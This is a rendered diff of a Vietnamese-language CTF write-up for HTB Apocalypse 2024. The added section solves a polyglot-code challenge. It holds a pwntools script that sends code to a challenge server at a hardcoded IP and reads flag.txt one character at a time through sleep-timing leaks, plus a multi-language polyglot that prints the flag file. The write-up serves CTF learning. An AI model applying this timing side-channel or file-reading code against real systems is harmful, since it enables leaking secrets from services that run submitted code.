

Before and after one commit to MinhFanBoy/CTF, a Markdown page: WU CTF/HTB_Apocalypse_2024.md, the part around one of its changes. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/WU CTF/HTB_Apocalypse_2024.md
+++ b/WU CTF/HTB_Apocalypse_2024.md
@@ -1395,6 +1394,60 @@ import time
 flag = open('flag.txt', 'r').read()
 time.sleep(ord(flag[{i}]) / 10)
 ```
+
 Máy chủ sẽ chạy nó, trong khi nó vẫn thỏa mãn yêu cầu của sever và cũng leak cho chúng ta thông tin thêm về flag.
 
-Từ đó, ta gửi yêu cầu nhiều lần lêmạng)
+Từ đó, ta gửi yêu cầu nhiều lần lên lên máy chủ, mỗi lần đọc từng ký tự của flag khi đó chương trình sẽ tạm dừng chương trình một khoảng thời gian đúng bằng (ord(flag) / 10) nên ta tính toán khoảng thời gian chênh lệch là ta có flag ( trong đoạng code có bị trừ đi cho 2 là do một vài yếu tố mội trường như tốc độ mang, máy tính ảnh hưởng tới thời gian)
+
+```py
+
+import time
+from base64 import *
+from pwn import *
+
+def main() -> None:
+
+    flag = ""
+
+    for i in range(100):
+
+        code = f"""
+import time
+flag = open('flag.txt', 'r').read()
+time.sleep(ord(flag[{i}]) / 10)
+"""
+        s = remote("94.237.63.93", 38070)
+
+        s.recvuntil(b'Enter the program of many languages: ')
+        start = time.time()
+        s.sendline(b64encode(code.encode()))
+        s.recvuntil(b'[+] Completed. Checking output')
+        end = time.time()
+
+        flag += chr(int((end - start)* 10) - 2)
+        print(flag)
+
+        s.close()
+
+        if flag[-1] == "}":
+            break
+
+if __name__ == "__main__":
+    main()
+
+```
+
+
+> Another way: Ngôn ngữ của chúa
+
+
+```py
+#include/*
+#<?php eval('echo file_get_contents("flag.txt", true);')?>
+q="""*/<stdio.h>
+int main() {char s[500];fgets(s, 500, fopen((const char[]){'f','l','a','g','.','t','x','t','\x00'}, (const char[]){'r', '\x00'})); {puts(s);}if(1);
+	else	{}} /*=;
+open(my $file, 'flag.txt');print(<$file>)#";print(puts File.read('flag.txt'));#""";print(open('flag.txt').read())#*/
+```
+
+Nếu bạn đã quá mệt mỏi vì mấy bài brute force 2 ^ 32 thì có thể sử dụng cách này (copy code trên mạng)
````
Also changed, not shown: other parts of WU CTF/HTB_Apocalypse_2024.md (+0 -1 lines).
